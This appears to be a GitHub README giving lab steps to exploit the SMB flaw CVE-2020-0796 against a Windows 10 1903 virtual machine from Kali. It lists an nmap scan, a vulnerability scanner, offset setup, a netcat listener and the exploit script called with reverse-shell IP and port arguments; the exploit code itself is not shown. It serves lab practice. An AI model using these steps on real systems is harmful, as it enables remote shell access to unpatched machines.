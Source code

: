 #READ ME

#Author Abdullah Iqbal

Install **windows 10 version 1903** on a virtual machine.

Run both kali and win 10 on the same **Nat network**.

Scan the windows using the nmap on kali to see which ports are open on the virtual windows.
    1. `sudo nmap -sS <Ip address>`
    2. We can see that port **445** is open, that what we need.

On kali terminal clone the GitHub repository and run the script file to see weather the install windows version is vulnerable or not using the python script.
    1. Git clone https://github.com/abdullah098/CVE_2020_0796
    2. `Python3 Scanner.py <Ip address>`
 
    If the terminal shows **Vulnerable** then the installed version of win 10 is vulnerable, otherwise, start from step 1 again. 
 
Run offsets.bat on the target machine to get the offset of windows and replace the offset that you get from windows into the CVE_2020_0796.py file.
 
Now we must make a listening port on the kali so that we can listen to the incoming communication.
    1. `nc -lvp <port number>`
 
Now we have to run the SMBleedingGhost.py file using the command.
    1. `CVE_2020_0796.py <target ip> <reverse_shell_ip> <reverse_shell_port>`
    2. We will receive an error after this step because of **windll**. This occurs because kali doesn’t have any windll file.
 
Make another win 10 Virtual machine and run it on same **NAT networ**. 

Then we will run the exploit on that machine and will redirect that to the kali listening port we started at step 7.
    1. Start Win 10 on same NAT network
    2. Install python
    3. Resetup the offset
    4. Run `CVE_2020_0796.py <target ip> <reverse_shell_ip> <reverse_shell_port>`
